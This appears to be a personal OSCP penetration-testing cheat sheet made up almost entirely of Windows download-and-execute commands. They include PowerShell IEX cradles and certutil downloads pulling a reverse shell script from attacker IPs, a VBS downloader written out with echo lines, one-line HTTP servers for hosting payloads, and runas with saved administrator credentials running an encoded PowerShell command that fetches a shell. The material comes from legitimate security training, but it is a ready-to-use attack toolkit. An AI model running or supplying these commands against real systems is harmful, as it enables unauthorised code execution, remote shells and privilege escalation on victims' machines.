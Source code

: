 ## my OSCP_note

_Download & execute_

`C:\> PowerShell (New-Object System.Net.WebClient).DownloadFile('http://192.168.178.16:8000/launcher.bat’,’launcher.bat'); Start-Process ‘launcher.bat'`


`PS C:\Users\hillie> IEX (New-Object Net.WebClient).DownloadString('http://192.168.178.16/puckieshell443.ps1')`


`c:\Users\Public>certutil -urlcache -split -f http://10.10.14.20/puckieshell443.ps1`



`PS C:\pentest> certutil.exe -f -split -VerifyCTL http://192.168.178.12/msbuild_nps.xml
CertUtil: -verifyCTL command FAILED: 0x8009310b (ASN: 267 CRYPT_E_ASN1_BADTAG)
CertUtil: ASN1 bad tag value met.`

```markdown

PS C:\pentest> dir *.bin

Directory: C:\pentest

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         5/7/2019   4:16 PM           5462 619bd719eb0f011e589ef17f4fd8693d9ba8d481.bin

PS C:\pentest> mv 619bd719eb0f011e589ef17f4fd8693d9ba8d481.bin msbuild_nps.xml

PS C:\pentest> dir *.xml

Directory: C:\pentest

Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 5/7/2019 4:16 PM 5462 msbuild_nps.xml

```

```markdown

 echo Set args = Wscript.Arguments  &gt;&gt; webdl.vbs
 timeout 1
 echo Url = "http://1.1.1.1/windows-privesc-check2.exe"  &gt;&gt; webdl.vbs
 timeout 1
 echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  &gt;&gt; webdl.vbs
 timeout 1
 echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  &gt;&gt; webdl.vbs
 timeout 1
 echo xHttp.Open "GET", Url, False  &gt;&gt; webdl.vbs
 timeout 1
 echo xHttp.Send  &gt;&gt; webdl.vbs
 timeout 1
 echo with bStrm      &gt;&gt; webdl.vbs
 timeout 1
 echo   .type = 1 '      &gt;&gt; webdl.vbs
 timeout 1
 echo   .open      &gt;&gt; webdl.vbs
 timeout 1
 echo   .write xHttp.responseBody      &gt;&gt; webdl.vbs
 timeout 1
 echo   .savetofile "C:tempwindows-privesc-check2.exe", 2 '  &gt;&gt; webdl.vbs
 timeout 1
 echo end with &gt;&gt; webdl.vbs
 timeout 1
 echo

```




_up my server_

python3
`c:\Python37>python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.98 - - [28/Feb/2019 19:38:58] "GET /puckieshell443.ps1 HTTP/1.1" 200 -`

python2
`python2 -m SimpleHTTPServer 8080`

 ruby  http server
`ruby -rwebrick -e “WEBrick::HTTPServer.new
(:Port => 80, :DocumentRoot => Dir.pwd).start”`

 PHP http server
`php -S $ip:80`


_runas_

`C:\Users\Public> runas /user:HTB\administrator /savecred "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.20/puckieshell443.ps1')"`


`c:\Users\Public> runas /user:ACCESS\administrator /savecred "powershell -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAwAC8AcAB1AGMAawBpAGUAcwBoAGUAbABsADUAMwAuAHAAcwAxACcAKQA="`


__




